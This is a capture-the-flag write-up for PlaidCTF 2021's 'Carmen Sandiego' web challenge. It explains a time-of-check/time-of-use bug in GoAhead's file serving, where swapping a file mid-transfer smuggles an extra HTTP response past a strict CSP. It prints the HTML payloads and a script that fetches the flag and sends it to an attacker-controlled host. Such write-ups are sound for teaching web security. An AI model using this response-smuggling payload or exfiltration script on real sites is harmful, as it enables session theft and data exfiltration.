


# PlaidCTF 2021 

## Carmen Sandiego

### Setup



As described in the diagram above, we somehow had to get the flag through the victim visiting the URL supplied by us. Because of the cookie, it would probably have to be on the same origin as the flag, so if we could get XSS somehow, we get the flag. However, there was a quite strict CSP that forbid script execution except for scripts with the correct nonce.

### 1. Season

The first season had an unintended solution where we could execute JavaScript by simply giving URLs that started with `javascript:...`
and it would be executed on the page that was open at the time, which conveniently was the index page of the IoT Hub.

### 2. Season

Season 2 fixed this mistake by only allowing http(s) urls and creating a new page.

The README.md file gave us a hint where to look: 
```
The intended solution uses a bug in `file.c` of GoAhead.  (Feel free to look for bugs elsewhere though!)
```

Looking throught the file, we noticed one thing:

```c
websWriteHeaders(wp, info.size, 0);

...

if (info.size > 0) {
    websSetBackgroundWriter(wp, fileWriteEvent);
} else {
    websDone(wp);
}

```
 
 
 ```c
 static void fileWriteEvent(Webs *wp)
{
   ...
    while ((len = websPageReadData(wp, buf, ME_GOAHEAD_LIMIT_BUFFER)) > 0) {
        ...
    }
    ...
}

 ```
  ```c
PUBLIC ssize websPageReadData(Webs *wp, char *buf, ssize nBytes)
{
    ...
    return websReadFile(wp->docfd, buf, nBytes);
}


 ```
 
 ```c
 PUBLIC ssize websReadFile(int fd, char *buf, ssize size)
{
    ...
    return read(fd, buf, (uint) size);
    ...
}
 ```
 
 There is a TOCTOU (Time-of-check to time-of-use) problem, the content length gets sent first, but that size is not used as a limit for the sending, so if we write to the file after the content length has been set, we can write more than the content length specified.
 
We further notice that HTTP/1.1 with `Connection: keep-alive` is being used. So could we just append more HTTP requests, kind of like with HTTP request smuggling, but with responses instead?

No better time to try than now, and sure enough, after some failed tries, chrome finally mistook one of our appended responses as another one. 



This was achieved by uploading a html payload like this for the page the victim is going to visit:

```html
<html>
    <body>
        /start_of_prep"/> <!-- Debugging -->
        <Iframe src='./camone?0'></iframe>
        <Iframe src='./camone?1'></iframe>
        <Iframe src='./camone?2'></iframe>
        <Iframe src='./camone?3'></iframe>
        <Iframe src='./camone?4'></iframe>
        <Iframe src='./camone?5'></iframe>
        <Iframe src='./camone?6'></iframe>
        <Iframe src='./camone?7'></iframe>
        /end_of_prep"/> <!-- Debugging -->
    </body>
</html>
```

and uploading a payload for the file that is going to get replaced while it is being served.

Payload A
```html
<html>
    <body>
        /start_of_cam_one_a"/> <!-- Debugging -->
        many AAAA...
        /end_of_cam_one_a"/> <!-- Debugging -->
    </body>
</html>
```


Payload B
```html
<html>
    <body>
        /start_of_cam_one_b"/> <!-- Debugging -->
        fewer BBBB...
        /end_of_cam_one_b"/> <!-- Debugging -->
    </body>
</html> <!-- note that the new response has to start in a new tcp packet -->
HTTP/1.1 200 OK
Content-Length: ...
Connection: keep-alive
<html>
    <body>
        Hello World!
        <script>
            fetch("/cgi-bin/flag").then(r => r.text()).then(flag => fetch("http://<your_machine>/flag?" + flag))
        </script>
    </body>
</html>
...
```


While chrome is downloading the payload a for the first few iframes, we replace the file with payload B so that the server now sends more than it has announced in the content-length header. Chrome will only open a certain number of connections to the same origin, so by making many requests, more requests would be made through the same connection and mistake our appended HTML response as the requested one later.

The injected HTTP response contains a simple javascript payload extracting the flag. Because we have full control over the HTTP headers, we don't have to worry about CSP.

(The `` were for debugging on the server and helped us to properly time the replacement of the payload)

This would give us the first flag of Season two. For the second flag, the service which we used to upload the files was changed to only allow more restricted input. We did not get the second flag.

While this was probably the intended way of solving this challenge, another team found [a different one by exploiting the renderer](https://ptr-yudai.hatenablog.com/entry/2021/04/19/140802) :o 


